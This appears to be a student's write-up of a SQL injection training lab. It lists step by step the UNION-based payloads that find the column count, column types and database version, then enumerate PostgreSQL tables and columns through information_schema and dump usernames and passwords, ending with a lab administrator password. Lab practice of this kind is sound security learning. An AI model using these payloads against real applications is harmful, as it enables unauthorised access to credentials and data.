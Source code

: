 Lab #9 - SQL injection attack, listing the database contents on non-Oracle databases

End Goals:
- Determine the table that contains usernames and passwords
- Determine the relevant columns
- Output the content of the table
- Login as the administrator user

Analysis:

1. Find the number of columns
' order by 3-- -> Internal server error
3 - 1 = 2

2. Find the data type of the columns
' UNION select 'a', 'a'--
-> both columns accept type text

3. Version of the database
' UNION SELECT @@version, NULL-- -> not Microsoft
' UNION SELECT version(), NULL-- -> 200 OK
PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1)
' UNION SELECT sqlite_version(), NULL--

4. Output the list of table names in the database

' UNION SELECT table_name, NULL FROM information_schema.tables--

users_xacgsm

5. Output the column names of the table

' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--


username_pxqwui
password_bfvoxs

6. Output the usernames and passwords

' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--

administrator
9g91jpytvv5c091xpjxc

script.py <url> 



